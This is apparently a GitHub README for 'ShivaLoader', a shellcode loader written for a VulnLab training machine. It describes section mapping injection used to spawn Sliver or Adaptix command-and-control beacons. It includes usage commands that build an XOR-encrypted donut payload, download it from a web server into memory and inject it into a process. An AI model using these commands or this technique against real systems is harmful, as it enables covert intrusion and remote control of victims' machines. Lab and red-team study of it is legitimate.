 # ShivaLoader
Shellcode loader that I created to use for VulnLab's Shiva. Uses Section Mapping Injection.
I created this loader specifically to spawn Sliver or Adaptix beacons. It doesn't catch the resolution of the payload and transfer it back, it's a fire-and-forget kind of loader.

If you're curious about what it does and why you can check my blog: https://p0142.github.io/posts/shivainjector/

The donut generator requires donut shellcode: https://github.com/TheWover/donut
```
pip install donut-shellcode
```
It should work with any shellcode though, not only donut.

## Usage:
Create your payload
```sh
python donutGenerator.py -i DOUBTFUL_MANTEL.exe -x "Hello World"
```
Host the payload file on a web server and use the loader to download into memory and execute.
```powershell
.\ShivaInjector.exe /p:http://example.com/payload.bin /x:"Hello World" /pid:415
```
If `/pid` is included it will attempt to inject into the chosen PID. If not, it will automatically scan through processes for those owned by the user being run as. Then it will inject into one of the results instead.
```powershell
.\ShivaInjector.exe /p:http://example.com/payload.bin /x:"Hello World"
```
Omit -x or /x: if not using XOR functionality.

### References:
- https://oblivion-malware.xyz/
- https://maldevacademy.com/
- https://research.checkpoint.com/2025/waiting-thread-hijacking/
